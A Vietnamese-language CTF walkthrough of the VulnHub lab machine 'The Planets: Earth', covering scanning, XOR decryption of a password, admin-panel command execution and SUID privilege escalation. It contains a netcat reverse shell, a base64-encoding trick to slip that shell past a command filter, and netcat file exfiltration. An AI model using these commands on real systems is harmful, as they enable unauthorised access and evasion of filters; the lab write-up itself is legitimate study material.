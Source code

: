 ```yaml
---
title: "The Planets: Earth Writeup - VulnHub"
date: "2023-07-23 17:18:03"
categories:
  - CTF Writeup
  - VulnHub
tags:
  - The Planets
  - hacking
---
```


Download [THE PLANETS: EARTH](https://www.vulnhub.com/entry/the-planets-earth,755/){:target="\_blank"}

**Level**: Easy

## Scanning

Tiến hành scan ip máy chủ mục tiêu

```shell
sudo netdiscover -i eth0 -r 10.0.2.0/24
```

![scan ip](/assets/img/posts/earth-walkthrough/scan-ip.png)

Target IP là `10.0.2.6`. Tiến hành scan all ports:

```shell
nmap -sC -sV 10.0.2.6 -p- -A -T4
```

Đọc thêm về `nmap` tại [đây](/assets/img/posts/nmap-network-scanner/)

![scan ports](/assets/img/posts/earth-walkthrough/scan-ports.png)

Chúng ta có thể thấy có 3 port đang mở: 22, 80 và 443. Ngoài ra, phát hiện thêm có domain name `earth.local` và subdomain `terratest.earth.local`.

Truy cập ip máy chủ web cổng 80 và 443 thấy không có gì đặc biệt. Nhưng từ ssl certificate ta khai được ở trên, có thể thêm 2 entries này vào `/etc/hosts` và truy cập.

```shell
echo "10.0.2.6 earth.local" >> /etc/hosts && echo "10.0.2.6 terratest.earth.local" >> /etc/hosts
```

![add hostname](/assets/img/posts/earth-walkthrough/add-hostname.png)

![earth.local](/assets/img/posts/earth-walkthrough/earth.local.png)

![terratest.earth.local](/assets/img/posts/earth-walkthrough/terratest.earth.local.png)

## Enumeration

Ở trang `earth.local` phía dưới có 4 dòng message đã được encrypted, liệu có gì ẩn ý trong đây. Vẫn chưa tìm thấy đủ thông tin nên ta tiếp tục khai thác, tiến hành enumerate directories ở cả 2 domain.

![terratest enumeration](/assets/img/posts/earth-walkthrough/terratest-enum.png)

![earth enumeration](/assets/img/posts/earth-walkthrough/earth-enum.PNG)

Ta tìm được trang admin login và 1 trang robots.txt. Truy cập _https://terratest.earth.local/robots.txt_ xem thu thập được manh mối nào không.

![robots.txt](/assets/img/posts/earth-walkthrough/robots.txt.png)

Enum các extension cho file này, cuối cùng nhận được response 200 từ `testingnotes.txt`.

![testingnotes](/assets/img/posts/earth-walkthrough/testingnotes.PNG)

Từ notes trên ta có thể xác định được rằng thuật toán mã hóa message sử dụng XOR, và nội dung file `testdata.txt` có thể là key. Ngoài ra, xác định được username của admin là `terra`.

![testdata](/assets/img/posts/earth-walkthrough/testdata.PNG)

Ném từng cái encrypted message vào XOR với key (nội dung file `testdata.txt` trên).

![decode message](/assets/img/posts/earth-walkthrough/decode-message.PNG)

=> Thu được 1 chuỗi lặp lại "`earthclimatechangebad4humans`". Dùng chuỗi này làm password cho user `terra` để đăng nhập trang /admin

![admin](/assets/img/posts/earth-walkthrough/admin.PNG)

Login admin thành công! Tại đây có thể chạy câu lệnh từ input và click `Run command` sẽ trả về kết quả.

```shell
find / -name 'user_flag.txt' -exec cat {} \;
```

![user_flag.txt](/assets/img/posts/earth-walkthrough/user_flag.PNG)

User Flag: [user_flag_3353b67d6437f07ba7d34afd7d2fc27d]

## RCE

Tạo 1 listener trên port 9005

```shell
nc -nlvp 9005
```

Thử spawn reverse shell `nc 10.0.2.15 9005 -e /bin/bash`.

![remote forbidden](/assets/img/posts/earth-walkthrough/remote-forbidden.PNG)

Bị forbidden ư? Làm thế nào để bypass đây. Chợt nhớ ra ta có thể bypass kí tự đặc biệt bằng cách encode base64 câu lệnh, decode và đồng thời đưa nó vào shell thực thi thông qua pipeline `|`.

```shell
┌──(kali㉿kali)-[~]
└─$ echo "nc 10.0.2.15 9005 -e /bin/bash" | base64
bmMgMTAuMC4yLjE1IDkwMDUgLWUgL2Jpbi9iYXNoCg==
```

Spawn Reverse Shell

```shell
echo "bmMgMTAuMC4yLjE1IDkwMDUgLWUgL2Jpbi9iYXNoCg==" | base64 -d | bash
```

![remote forbidden](/assets/img/posts/earth-walkthrough/RCE.PNG)

RCE thành công! Nhiệm vụ tiếp theo là leo root và tìm root flag.

## Privilege Escalation

`apache` là user hiện tại, mục tiêu của chúng ta là leo lên quyền cao nhất - root.

Đầu tiên, liệt kê tất cả các file có suid

```shell
find / -perm -u=s 2>/dev/null
```

![find-suid-perm](/assets/img/posts/earth-walkthrough/find-suid-perm.png)

Check thấy 1 file lạ `reset_root`, nhìn cũng có vẻ hấp dẫn

Phân tích thấy đây là 1 file thực thi và có chức năng reset password cho `root`.

![analyze-reset-root](/assets/img/posts/earth-walkthrough/analyze-reset-root.PNG)

Chạy thử và bị failed

![run-reset-root](/assets/img/posts/earth-walkthrough/run-reset-root.PNG)

Để phân tích được rõ ràng hơn, ta sẽ sử dụng `ltrace`.

Nhưng trước tiên phải truyền file `reset_root` về máy local để phân tích. Searching 1 lúc thấy `netcat` có thể làm được điều này. Đọc thêm [tại đây](https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/){:target="\_blank"}

Tại máy local

```shell
nc -l -p 1234 -q 1 > reset_root < /dev/null
```

Tại máy gửi

```shell
cat /usr/bin/reset_root | netcat 10.0.2.15 1234
```

Sau khi transfer thành công, thêm quyền thực thi và dùng `ltrace` phân tích ta thu được:

![ltrace-reset-root](/assets/img/posts/earth-walkthrough/ltrace-reset-root.png)

Hóa ra là máy chủ chỉ kiểm tra các file mình khoanh đỏ ở trên có tồn tại hay không thôi, nếu tồn tại, các câu lệnh phía dưới sẽ được thực thi, và mật khẩu root sẽ được reset về `Earth`.

Giờ quay lại máy chủ mục tiêu và tạo các file đó, sau đó chạy lại file thực thi.

![reset-root-successfully](/assets/img/posts/earth-walkthrough/reset-root-successfully.PNG)

Quào, `su root` với password là `Earth` và get root flag thoaiii

![root-flag](/assets/img/posts/earth-walkthrough/root-flag.PNG)

Root Flag: [root_flag_b0da9554d29db2117b02aa8b66ec492e]

